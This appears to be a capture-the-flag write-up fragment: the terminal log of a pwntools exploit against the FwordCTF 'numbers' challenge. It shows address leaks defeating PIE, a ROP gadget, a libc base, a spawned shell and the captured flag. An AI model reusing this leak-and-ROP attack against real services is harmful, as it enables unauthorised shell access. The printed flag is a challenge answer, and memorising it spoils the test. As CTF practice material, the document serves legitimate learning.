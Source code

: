 ```bash
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to numbers.fword.wtf on port 1237: Done
[*] entry: 0x562c4e7409c6
[*] binary.address: 0x562c4e740000
[*] entry: 0x562c4e7409c6
[*] Closed connection to numbers.fword.wtf port 1237
[+] Opening connection to numbers.fword.wtf on port 1237: Done
[*] Closed connection to numbers.fword.wtf port 1237
[+] Opening connection to numbers.fword.wtf on port 1237: Done
[*] entry: 0x55a2814f09c6
[*] binary.address: 0x55a2814f0000
[*] entry: 0x55a2814f09c6
[*] Closed connection to numbers.fword.wtf port 1237
[+] Opening connection to numbers.fword.wtf on port 1237: Done
[*] entry: 0x564f797d09c6
[*] binary.address: 0x564f797d0000
[*] entry: 0x564f797d09c6
[*] Closed connection to numbers.fword.wtf port 1237
[+] Opening connection to numbers.fword.wtf on port 1237: Done
[*] entry: 0x55da8ae009c6
[*] binary.address: 0x55da8ae00000
[*] entry: 0x55da8ae009c6
[*] Closed connection to numbers.fword.wtf port 1237
[+] Opening connection to numbers.fword.wtf on port 1237: Done
[*] entry: 0x55b74b7c09c6
[*] binary.address: 0x55b74b7c0000
[*] entry: 0x55b74b7c09c6
[*] Loaded 14 cached gadgets for './numbers'
[*] pop_rdi: 0x55b74b7c0ad3
[*] puts: 0x7f225a0f5010
[*] libc.address: 0x7f225a074000
[*] Switching to interactive mode
$ id
uid=1000(fword) gid=1000(fword) groups=1000(fword)
$ ls -l
total 32
-rw-r--r-- 1 root root    42 Aug 29 00:23 flag.txt
-rwxr-xr-x 1 root root  6120 Aug 29 15:39 numbers
-rwxr-xr-x 1 root root 18744 Aug 29 00:23 ynetd
$ cat flag.txt
FwordCTF{s1gN3d_nuMb3R5_c4n_b3_d4nG3r0us}
```

